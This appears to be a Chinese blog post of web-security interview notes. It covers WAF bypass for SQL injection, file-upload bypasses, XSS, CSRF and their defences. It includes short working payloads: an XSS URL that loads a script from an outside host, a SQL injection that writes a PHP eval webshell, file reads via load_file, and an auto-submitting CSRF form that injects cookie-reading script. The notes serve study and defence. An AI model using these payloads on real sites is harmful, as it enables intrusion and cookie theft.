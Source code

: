 ```yaml
---
title: 网安面试问题汇总
date: 2022-02-07 12:56:59
categories: CTF
tags: [Web]
---
```


## 1.SQL注入的WAF绕过

- 白盒  框架源码，代码审计
- 黑盒绕过
  - 架构层绕过
  - 资源限制角度绕过
  - 协议层
  - 规则层面绕过

### 架构层绕过

寻找源站点地址（适用于网站使用云WAF场景）；

利用同网段主机（同网段主机可以直接交换帧，无需交换机/网桥的转发）或服务器进行内网注入

> 通过网桥连接多个以太网成为覆盖更大的以太网（局域网：以太网，令牌环网，FDDI）。

碰撞/冲突域：任意两台主机通信（使用信道时，其他主机无法通信）——介质访问控制



### 资源限制角度绕过

- 多试一试，利用数据库特性
- 改其他格式文件，burp改文件后缀
- post的内容足够多——一个大的body；由于在线WAF会考虑速度，对大文件一般不过滤；

- 借助畸形包，或者模糊测试fuzz。

### 协议层绕过

- 参数污染，代入多个参数，有的WAF只能识别一个参数，可以在第二个参数后面带sql语句。

```php
  url.php?id=1&id=2
```

### **规则层的绕过**

- 注释符号#，‘ ’空白符号，函数分割，浮点数

- error-base，mysql特殊语法绕过

## 2.文件上传漏洞的绕过

- 修改后缀
- 绕后端：MineType，即修改Content-Type类型，%00截断（伪造合法文件头）
- Content-Disposition'...' filename="1.jpg;.php" ｜｜  去掉双引号 ｜｜ 把p  h  p换行   ｜｜php5
- webshell放入jpg；改幻数头字节，判断文件格式一般靠前10个字节。

### 文件上传漏洞的防护手段

- js过滤
- 限制文件大小
- 随机数改写文件名，取消执行权限，**将文件强制重命名另存储**
- 竞争条件？？
- 后端设置白名单（更安全，使用递归过滤，防治覆写）和黑名单（可能会有遗漏，可能靠大小写可以绕过）

## 3.XSS原理

>http://www.atomsec.org/%E5%AE%89%E5%85%A8/%E5%8F%8D%E5%B0%84%E5%9E%8Bxss%E6%B5%8B%E8%AF%95%E5%8F%8A%E4%BF%AE%E5%A4%8D/

跨站脚本攻击，允许恶意web用户将代码植入到提供给其它用户使用的页面中，用户访问时将会自动执行。

分为**存储型**，反射型和DOM型。

### 3.1 攻击办法：

闭合标签，使我的内容能被解析成可执行语句；对url和参数进行各种编码（比如16禁止和8进制）

### 3.2 防御手段：

将特殊字符过滤(",<,>,&"),使其成为不能被html执行的字符；

做白名单过滤，专门过滤，使用**内容安全的策略CSP**（规定客户端哪些内容可以加载）；

禁止非同源网站读cookie

- 反射型（给别人发送带有恶意脚本代码参数的URL，当URL地址被打开时，特有的恶意代码参数被HTML解析、执行。它的特点是非持久化，必须**用户点击带有特定参数的链接**才能引起。）

- 存储型——把用户cookie信息发到攻击者服务器

```js
在搜索框输入这一行在服务器上直接被解析成了js语句；
　“<script>alert(1)</script>”
search.php?q=%3Cscript+src%3Dhttp%3A%2F%2Fhacker.qq.com%2Fhacker.js%3E%3C%2Fscript%3E
```

当用户登陆了网站后，再欺骗用户点击这个链接才可以窃取用户的cookie。

## 深信服安全岗面试题

1.sql注入如何读写文件，二次注入，防御方式？

```sql
#读：
select load_file('C:\\key.txt')
#写：
开权限：secure_file_priv into outfile
unoion select 1,'<?php @eval($_POST[‘mima’]);?>',3 into outfile "C:\\test\shellcode.php"
#二次注入
admin'--  #借助--把后面的语句注释了
select ... username='admin'--  and password='xxx'
#sql注入的防御
- 预编译，例如Java中PrepareStatement，从结构上限制编写；
Mybatis？？ #预编译  $进行替换
- 参数判断，强转参数int(and 1==1--+)

```

2.CSRF和XSS的区别

XSS，原来叫做CSS (Cross Site Script) ，跨站调用脚本攻击站内的信任用户，盗取cookie；

CSRF通过伪装成受信任用户请求受信任的网站；

```asp
<%
s = "<form method='post' action='http://hi.baidu.com/yuxi4n/commit'>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='5' name='ct'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='1' name='spCssUse'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='1' name='spCssColorID'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='-1' name='spCssLayoutID'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='http://hi.baidu.com/yuxi4n/modify/spcss/20f51f4f94129a36aec3ab11.css/edit' name='spRefURL'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='5' name='cm'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='</style><script>alert(document.cookie)</script><style>' name='spCssText'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='abc' name='spCssName'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='0' name='spCssTag'/>"
s = s+"</form>"
s = s+"<script>document.forms[0].submit();</script>"
Response.write(s)
%>
```



防御手段：CSRF Token+Referer的验证

> http://huaidan.org/archives/2561.html,借助CSRF和其他手段，可以把反射型XSS持久化利用，不一定需要用户去点击特殊构造的链接。



